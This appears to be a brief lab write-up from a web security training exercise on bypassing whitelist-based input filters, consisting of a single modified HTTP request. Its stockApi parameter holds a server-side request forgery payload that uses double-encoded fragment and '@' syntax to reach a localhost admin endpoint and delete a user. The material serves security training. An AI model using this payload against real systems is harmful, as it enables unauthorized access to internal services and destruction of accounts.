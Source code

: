 # Bypass Defenses

### Whitelist-based input filters

Modified request:

<pre>
POST /product/stock HTTP/1.1
Host: acb01f311e9c63a080801b0b00b200b7.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acb01f311e9c63a080801b0b00b200b7.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Origin: https://acb01f311e9c63a080801b0b00b200b7.web-security-academy.net
Content-Length: 85
Connection: close
Cookie: session=LdhZWSZjybX2mxXc53VuZ8ybUVnaudIP

stockApi=<b>http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos</b>
</pre>
